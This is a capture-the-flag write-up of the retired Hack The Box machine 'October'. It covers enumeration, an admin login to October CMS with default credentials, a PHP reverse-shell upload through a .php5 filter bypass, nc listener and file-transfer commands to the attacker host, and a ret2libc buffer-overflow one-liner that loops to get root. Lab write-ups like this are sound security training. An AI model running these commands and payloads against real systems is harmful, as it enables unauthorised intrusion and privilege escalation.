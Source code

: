 ![logo](/logo.png)

# [October- BOX]  
Hi folks, today I am going to solve an medium rated hack the box machine which was released on 20 Apr 2017 as the 13th machine on HTB,October created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *CMS
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/october 10.10.10.16
```

###### Output 

![](/Linux/Linux-Medium/October/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/october 10.10.10.16                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 20:35 EAT
Nmap scan report for 10.10.10.16
Host is up (0.39s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: October CMS - Vanilla
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.36 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.7`. 

port[22]-ssh
port[80]-http

when we naviagate to [http://10.10.10.16](http://10.10.10.16)  we find a page run a theme for CMS

![](/Linux/Linux-Medium/October/Screenshots/vanilla.png)

I decide to run `gobuster` so that i can revel other directory that can be used to exploit the machine.

```sh
gobuster dir -u http://10.10.10.16 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k
```

![](/Linux/Linux-Medium/October/Screenshots/gobuster.png)

`Gobuster` revels a page module backed and it looks interesting upon viewing an Administrator login page

![](/Linux/Linux-Medium/October/Screenshots/Administrator.png)

Upon trying default password like `admin:admin` i log in to the administrator of the CMs

![](/Linux/Linux-Medium/October/Screenshots/Admin.png)

The media page revel that you can upload a php file beacuse their is a php file uploaded so we would probaly use this to upload a shell.

![](/Linux/Linux-Medium/October/Screenshots/upload.png)

Upon searching I come accross an [exploit](https://www.exploit-db.com/exploits/41936) According to the above exploit, it is possible to upload a file with a `.php5 ` extension and it will bypass the filter. From here it is trivial to obtain a shell on the target. Let upload a reverse shell a default from kali Linux

```sh
locate php-reverse-shell.php
```

Then to copy to working directory

```sh
cp /usr/share/laudanum/php/php-reverse-shell.php .
```

![](/Linux/Linux-Medium/October/Screenshots/phpreverse.png)

![](/Linux/Linux-Medium/October/Screenshots/reverseshell.png)
so we upload this file and set a listner.

```sh
nc -lnvp 1234
```

![](/Linux/Linux-Medium/October/Screenshots/shell.png)

and you can get `user.txt`

![](/Linux/Linux-Medium/October/Screenshots/user.txt.png)

so i run `LinEnum` which is used to determine if their are vunerability on the box [LinEnum](https://github.com/rebootuser/LinEnum)

![](Linux/Linux-Medium/October/Screenshots/LinEnum.png)
Running LinEnum reveals a non-standard SUID binary at `/usr/local/bin/ovrflw`. Passing a large
argument to the binary causes a segmentation fault, and it can be assumed that root is obtained
by exploiting the buffer overflow.

![](/Linux/Linux-Medium/October/Screenshots/overflow.png)

Checksec shows that NX/DEP is enabled. Checking on the target reveals that ASLR is also
enabled. Passing a pattern to the binary in gdb finds that there is 112 bytes before the buffer is
overflowed and the EIP is overwritten.

so lets send the binary to our machine 

```sh
nc -w 5 10.10.14.15 9000 < /usr/local/bin/ovrflw
```

![](/Linux/Linux-Medium/October/Screenshots/nc.png)

![](Linux/Linux-Medium/October/Screenshots/ovflw.png)
Then we check the file to see if it has changed the content we we imported it to our machine.

```sh
md5sum ovrflw
```

![](/Linux/Linux-Medium/October/Screenshots/md5.png)

![](/Linux/Linux-Medium/October/Screenshots/md5sum.png)

The command `ldd /usr/local/bin/overflw | grep libc` will get the libc address of the binary as well as the path to the libc library.

```sh
ldd /usr/local/bin/overflw | grep libc
```

![](/Linux/Linux-Medium/October/Screenshots/libc.png)

The command `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system` will get the system offset for libc.

```sh
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

![](/Linux/Linux-Medium/October/Screenshots/system.png)

The command `strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh` will find the address to reference to call `/bin/sh`.

```sh
strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

![](/Linux/Linux-Medium/October/Screenshots/strings.png)

Using the above information, it is possible to create a script to repeatedly call the binary with a
payload in the following format: `JUNK*112 + libcAddress + JUNK*8 + binShAddress

![](/Linux/Linux-Medium/October/Screenshots/overflow2.png)

Because ASLR is enabled, I’ll do it in a loop until I get a shell:

```sh
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```


You can get the `root.txt` now since we have root privillage

![](/Linux/Linux-Medium/October/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------


